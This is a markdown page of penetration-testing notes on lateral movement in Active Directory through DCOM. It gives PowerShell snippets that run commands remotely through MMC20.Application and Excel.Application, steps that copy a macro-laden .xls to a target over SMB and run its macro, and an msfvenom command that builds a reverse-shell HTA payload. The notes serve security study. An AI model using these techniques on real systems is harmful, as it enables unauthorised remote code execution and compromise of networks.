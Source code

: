 # Active Directory Lateral Movement With DCOM


[Distributed Component Object Model](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) (DCOM) are just [Component Object Model (COM)](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal?redirectedfrom=MSDN) -  software components that can interact, but also distributed over a network or networked Windows machines.[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and their interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They are ancient technologies that are present from the early days of Windows. DCOM interaction occurs using RPC on TCP port 135 and local administrative access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

The attack is based on the abuse of Microsoft Management Console COM application as the MMC Application Class allows the creation of Application Objects exposing `Document.ActiveView\ExecuteShellCommand` property

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$ipAddress"))
# EXecute a command - KEEP THE 7
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c cmd","7")
```


There are various Microsoft Office DCOM objects that allow for lateral movement.  - consider [[Visual-Basic]]
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"
$RemotePath = "\\$IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The `base64` encode [[MSFVenom-Payloads]] command to create .hta attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The `LHOST` can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with `dccomexec`
